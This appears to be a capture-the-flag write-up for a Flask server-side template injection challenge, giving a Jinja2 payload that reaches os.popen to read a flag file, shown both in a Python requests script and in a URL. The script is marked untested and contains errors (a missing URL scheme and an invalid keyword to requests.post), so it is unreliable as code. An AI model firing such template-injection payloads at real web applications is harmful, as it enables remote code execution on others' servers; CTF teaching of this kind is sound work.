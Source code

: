 # Why Hello There - SSTI Vulnerability
**Description**: I have created a simple site to host my most favorite stuff. There is an issue with one of the parameters and I'm not sure what to do! Can you get the flag using this parameter?
- *Hints*: Always be sure to sanitize user input!... Even ones that are not always visually obvious at first glance.

The goal of this challenge is to introduce possible Flask SSTI vulnerabilities that can happen from non-sanitized/escaped user input. This can lead to Remote Code Execution as seen in the solution below.

## Solution
```python
import requests

url = 'localhost:5000/'

payload = "{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}"

resp = requests.post(url, name=payload)
print(resp.text)
```

note: The code above is not tested, but the payload is something along those lines.

I.e.,
```
https://grizzctf.co:9000/?name={{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```

